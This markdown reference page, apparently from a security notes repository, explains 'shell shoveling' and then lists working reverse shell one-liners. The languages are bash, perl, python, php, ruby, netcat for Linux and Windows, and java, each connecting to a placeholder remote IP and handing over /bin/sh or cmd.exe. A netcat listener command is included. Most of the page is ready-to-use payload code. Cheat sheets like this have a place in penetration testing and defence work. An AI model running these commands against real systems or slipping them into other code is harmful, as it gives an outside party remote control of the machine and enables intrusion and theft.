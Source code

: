 # Reverse shell

***Shell shoveling***, in network security, refers to the act of redirecting the input and output of a shell to a service so that it can be remotely accessed, a ***reverse shell***.

In computing, the most basic method of interfacing with the operating system is the shell. On Microsoft Windows based systems, this is a program called cmd.exe or COMMAND.COM. On Unix or Unix-like systems, it may be any of a variety of programs such as [bash](../shells/bash.md), [zsh](../shells/zsh/zsh.md), etc. This program accepts commands typed from a prompt and executes them, usually in real time, displaying the results to what is referred to as standard output, usually a monitor or screen.

In the shell shoveling process, one of these programs is set to run (perhaps silently or without notifying someone observing the computer) accepting input from a remote system and redirecting output to the same remote system; therefore the operator of the shoveled shell is able to operate the computer as if they were present at the console.

## bash

```shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## perl

```shell
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php

```shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby

```shell
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## netcat

```shell
nc -e /bin/sh target 4444 # linux, use /bin/bash of sh doesn't work
nc.exe 192.168.100.113 4444 –e cmd.exe # windows
```

### netcat listener

```shell
nc -lvnp 4444
```

## java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
